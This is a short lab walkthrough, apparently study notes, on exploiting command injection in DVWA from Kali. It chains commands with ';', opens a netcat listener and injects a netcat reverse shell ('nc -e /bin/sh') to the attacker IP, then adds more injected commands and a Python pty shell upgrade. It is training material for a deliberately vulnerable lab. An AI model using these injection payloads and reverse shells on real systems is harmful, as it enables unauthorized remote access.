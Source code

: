 - When you open the DVWA in your kali bowser with the IP of your metasploitable, go to the code execution section.
- We can execute commands one after another in one go like this : 
```
ping 192.168.14.5 -c 5 ; echo"Hello World"
```
- We can use ; this to give multiple commands at once and they will all execute one by one and there's a way to exploit the code execution section of the DVWA using this method.
- Open command prompt 
```
netcat -lvnp 2345
```
- Search for Reverse Shell cheat sheet pentestmonkey on your browser.
- There you will find one line commands for many language's but we will be using netcat one.
- Same way as before we will be adding our IP of Kali and the port in which we are listening in the command, it will look something like this :
```
ping 0.0.0.0 ; nc -e /bin/sh 10.0.0.1 2345
(Some more commands which you can use in the code execution page)
ping 0.0.0.0 ; ls
ping 0.0.0.0 ; touch hi.txt
ping 0.0.0.0 ; echo Hello Hello Hello > hi.txt
ping 0.0.0.0 ; cat hi.txt
(to make the shell look a bit more user friendly you can use the same command as before)
python -c 'import pty; pty.spawn("/bin/sh")'
```

